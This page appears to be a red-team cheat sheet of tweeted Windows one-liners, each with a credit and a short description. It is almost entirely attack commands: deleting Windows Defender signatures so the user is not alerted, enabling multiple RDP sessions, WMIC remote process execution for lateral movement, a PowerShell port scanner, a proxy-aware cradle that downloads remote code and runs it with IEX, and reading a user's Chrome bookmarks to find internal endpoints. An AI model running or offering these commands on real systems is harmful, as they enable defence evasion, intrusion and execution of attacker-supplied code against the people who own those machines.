 Credit: @Alh4zr3d

Link: Twitter

🔙Cripple windows defender by deleting signatures
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Description: 'A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures.'

Credit: @Alh4zr3d

Link: Twitter

🔙Enable multiple RDP sessions per user
reg add HKLM\System\CurrentControlSet\Control\TerminalServer /v fSingleSessionPerUser /d 0 /f
Description: 'Sometimes you want to log in to a host via RDP or similar, but your user has an active session. Enable multiple sessions per user.'

Credit: @Alh4zr3d

Link: Twitter

🔙Sysinternals PsExec.exe local alternative
wmic.exe /node:10.1.1.1 /user:username /password:pass process call create cmd.exe /c " command "
Description: 'Are you tired of uploading Sysinternals PsExec.exe when doing lateral movement? Windows has a better alternative preinstalled. Try this instead.'

Credit: @GuhnooPlusLinux

Link: Twitter

🔙Live off the land port scanner
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(<tgt_ip>,$_)) "Port $_ open"} 2>$null
Description: 'When possible, live off the land rather than uploading tools to machines (for many reasons). PowerShell/.NET help. Ex: simple port scanner in Powershell.'

Credit: @Alh4zr3d

Link: Twitter

🔙Proxy aware PowerShell DownloadString
$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("<url>")
Description: 'Most large orgs are using web proxies these days. The standard PowerShell download cradle is not proxy aware. Use this one.'

Credit: @Alh4zr3d

Link: Twitter

🔙Looking for internal endpoints in browser bookmarks
type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"
Description: 'You'd be surprised what you can find out from a user's bookmarks alone. Internal endpoints they can access, for instance.'

Credit: @Alh4zr3d

Link: Twitter
